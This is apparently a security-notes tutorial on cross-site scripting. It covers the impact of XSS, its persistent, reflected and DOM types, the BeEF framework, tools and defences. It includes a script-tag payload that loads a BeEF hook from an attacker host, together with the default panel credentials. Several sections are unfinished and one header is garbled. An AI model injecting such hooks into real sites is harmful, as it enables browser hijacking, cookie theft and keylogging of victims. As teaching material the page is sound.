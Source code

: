 # Cross-Site Scripting

Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.

## So, what's the worst that can happen?

The attacker is probably not that interested in changing the color or font of the website the victim is visiting. Although s/he could do that. The worst that can happen is probably the following:

1. Complete control over the browser The attacker can access plugins. Like password managers. The attacker can trick the user into allowing webcam or audio.
2. Session-hijacking/Cookie theft This is when the attacker steals the cookie that is saved in the browser. Using this cookie the attacker can log in to the service as the victim, and thereby gain access to his/her account. If the victim is an admin that has extended privileges \(uploading code, images, or whatever\) this could lead to a compromise of the server itself.
3. Keylogger The attacker can execute a keylogging-script that steals everything the user inputs in the website. This could be used to steal sensitive information, like passwords, credit cards information, chatlogs or whatever the user inputs.
4. Phishing The attacker can insert a fake login. Image that you visit a site, and from that site you are able to login using your facebook or google-account. The attacker could spoof that so that when you enter your credentials, they are then sent to the attacker.
5. Browser exploits The script can redirect to a another page that issues an attack against the browser, possibly leading to total takeover of the machine.

### Types of XSS

1. Persistent This is when the malicious code originates from the websites database. That means the attacker has managed to insert malicious code into the database. So every time the database serve that data the script will me executed. this is probably the most dangerous XSS, since it does not need to rely on social engineering.
2. Reflected This is an attack where the script originates from the users request. This might seem a bit illogical, why would a user inject malicious code to himself? Well the code can
3. DOM based DOM-based attacks are when something is injected into javascript on the DOM. So, it does not go by the server. Because the code gets executed in the response. Take a search-functionality for example. The users enters a search-parameter that gets sent to the server which might sanitize it or something. In the response the found search-items are sent, but not the search-query. But on the webpage the search query is exposed. "You searched for X" is shown. That is because it gets the search parameter from the url-parameter. By using `document.location.href` for example.

## Beef

Beef username/password: beef:beef Beef is a great tool for attacking browsers.

After starting it up you can log in to the panel. Then you get someone to execute the hook. Hook URL: [http://172.17.15.118:3000/hook.js](http://172.17.15.118:3000/hook.js) UI URL: [http://172.17.15.118:3000/ui/panel](http://172.17.15.118:3000/ui/panel)

By injecting the hook into a XSS. Like this

```javascript
<script src="http://172.17.15.118:3000/hook.js"></script>
```

### How does it really work?

Let's look at a practical example.

### Protect yourself

The problem with XSS is that it is a bit hard for the users to protect themselves. If there is a problem witht the website there is not that much the user can do.

One can always use noscript to block all javascript code. But that pretty much destroys the whole experience with using the internet.

### Protect your website

There are mainly two ways to protect against ** encoding ** and ** sanitizing **.

#### Encoding

Of course the way to protect your website is to sanitize all input.

You can also set the response-header like this: `-xss-protection:"1; mode=block"`

For nodeJs you can use the helmet-module to do this. [https://www.npmjs.com/package/helmet](https://www.npmjs.com/package/helmet)

### Risks for the attacker

The obvious risk is that the attacker must expose a server.

### Tools

#### XSSER

This tool tests a lot of

`xsser --gtk`

#### Xssposed

This is a tool found in recon-ng. It basically just check this \([https://www.openbugbounty.org/](https://www.openbugbounty.org/) \) database to see if anyone has reported a xss for the website.

### References:

[http://brutelogic.com.br/blog/probing-to-find-xss/](http://brutelogic.com.br/blog/probing-to-find-xss/) [http://excess-xss.com/](http://excess-xss.com/)


